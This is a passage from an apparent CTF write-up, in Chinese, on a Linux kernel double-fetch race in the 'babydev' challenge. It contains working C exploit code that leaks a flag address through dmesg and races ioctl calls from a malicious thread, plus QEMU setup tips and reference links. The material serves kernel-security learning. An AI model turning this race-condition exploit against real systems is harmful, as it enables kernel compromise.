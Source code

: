 ```c
    t.len = 33;
    fd = open("/dev/baby",0);
    ret = ioctl(fd,0x6666);
    system("dmesg | grep flag > /tmp/sir.txt");     //get kernel_flag_addr
    file_addr = open("/tmp/sir.txt",O_RDONLY);
    id = read(file_addr,buf,200);
    close(file_addr);
    addr = strstr(buf,"Your flag is at ");
    if(addr)
        {
            addr +=16;
            flag_addr = strtoull(addr,addr+16,16);
            printf("[*]The flag_addr is at: %p\n",flag_addr);
        }
    else
    {
            printf("[*]Didn't find the flag_addr!\n");
            return 0;
    }
    pthread_create(&t1,NULL,change_flag_addr,&t);   //Malicious thread
    for(i=0;i<Time;i++){
        ret = ioctl(fd,0x1337,&t);
        t.flag = m;     //In order to pass the first inspection
    }
    finish = 0;
    pthread_join(t1,NULL);
    close(fd);
    printf("[*]The result:\n");
    system("dmesg | grep flag");
    return 0;
}
```

PS:

>1. 配置QEMU启动参数时,不要开启SMAP保护，否则在内核中直接访问用户态数据会引起kernel panic…
>
>2. 配置QEMU启动参数时，需要配置为非单核单线程启动，不然无法触发poc中的竞争条件,具体操作是在启动参数中增加其内核数选项，如:
>
>    ```shell
>    -smp 2,cores=2,threads=1  \
>    ```



>参考资料：
>
>[Linux Kernel Pwn 初探](https://xz.aliyun.com/t/7625)
>
>[祥云杯2020 babydev](http://www.yxfzedu.com/rs_show/702)
>
>[祥云杯2020 babydev详解](https://www.anquanke.com/post/id/223468)
>
>[fmyy's blog](https://fmyy.pro/2020/11/27/Competition/%E7%A5%A5%E4%BA%91%E6%9D%AF/#babydev)
>
>[Linux Kernel Exploit 内核漏洞学习(1)-Double Fetch](https://cc-sir.github.io/2019/07/24/Linux-kernel-1/)

